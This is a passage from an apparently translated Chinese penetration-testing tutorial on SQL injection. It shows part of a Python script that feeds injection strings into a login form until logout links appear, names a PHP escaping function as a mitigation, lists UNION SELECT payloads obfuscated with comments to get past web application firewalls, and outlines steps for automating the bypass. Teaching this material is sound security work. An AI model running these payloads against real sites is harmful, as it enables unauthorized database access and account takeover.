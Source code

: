 ```
  br.form[pass1] = "aaaaaaaa"
  br.submit()
  data = ""
  for link in br.links():
    data=data+str(link)

  list = ['logout','logoff', 'signout','signoff']
  data1 = data.lower()

  for l in list:
    for match in re.findall(l,data1):
      flag = 1
  if flag ==1:
    print "\t Success in ",p+1," attempts"
    print "Successfull hit --> ",user_exp[p]

  elif(p+1 == len(user_exp)):
    print "All exploits over "
    flag =1
  else :
    p = p+1
```

在前面的代码中，我们又使用了一个变量`form`；在输出中，您必须选择表单名称。在`sql_form6.py`代码中，我假设用户名和密码包含在表单编号`1`中。

前面代码的输出如下所示：

![Understanding the SQL injection attack by a Python script](graphics/8583OT_07_05.jpg)

SQL 注入用户名查询漏洞

现在，我们可以合并`sql_form6.py`和`sql_from7.py`代码并生成一个代码。

为了减轻前面的 SQL 注入攻击，您必须设置一个过滤程序来过滤用户输入的输入字符串。在 PHP 中，`mysql_real_escape_string()`函数用于过滤。下面的屏幕截图显示了如何使用此功能：

![Understanding the SQL injection attack by a Python script](graphics/8583OT_07_06.jpg)

PHP 中的 SQL 注入过滤器

到目前为止，您已经了解了如何执行 SQL 注入攻击。在 SQL 注入攻击中，我们必须手动执行很多操作，因为有很多 SQL 注入攻击，例如基于时间、基于 SQL 查询的包含顺序、基于联合等。每个 pentester 都应该知道如何手工创建查询。对于一种类型的攻击，您可以制作一个程序，但是现在，不同的网站开发人员使用不同的方法来显示数据库中的数据。有些开发人员使用 HTML 表单来显示数据，有些开发人员使用简单的 HTML 语句来显示数据。一个 Python 工具**sqlmap**可以做很多事情。然而，有时会出现 web 应用程序防火墙，如 mod security；这不允许通过查询**联合**和**订单等。在这种情况下，您必须手动创建查询，如下所示：**

```
/*!UNION*/ SELECT 1,2,3,4,5,6,--
/*!00000UNION*/ SELECT 1,2,database(),4,5,6 –
/*!UnIoN*/ /*!sElEcT*/ 1,2,3,4,5,6 –
```

您可以创建一个精心编制的查询的列表。当简单查询不起作用时，您可以检查网站的行为。根据行为，您可以决定查询是否成功。在这个例子中，Python 编程非常有帮助。

现在让我们看一下为基于防火墙的网站制作 Python 程序的步骤：

1.  列出所有精心编制的查询。
2.  对网站应用一个简单的查询，并观察网站的响应。
3.  将此响应用于`attempt not successful`。
4.  逐个应用列出的查询，并按程序匹配响应。
5.  如果响应不匹配，则手动检查查询。
6.  如果显示成功，则停止该程序。
7.  如果不成功，则将其添加到`attempt not successful`中，并继续执行列出的查询。
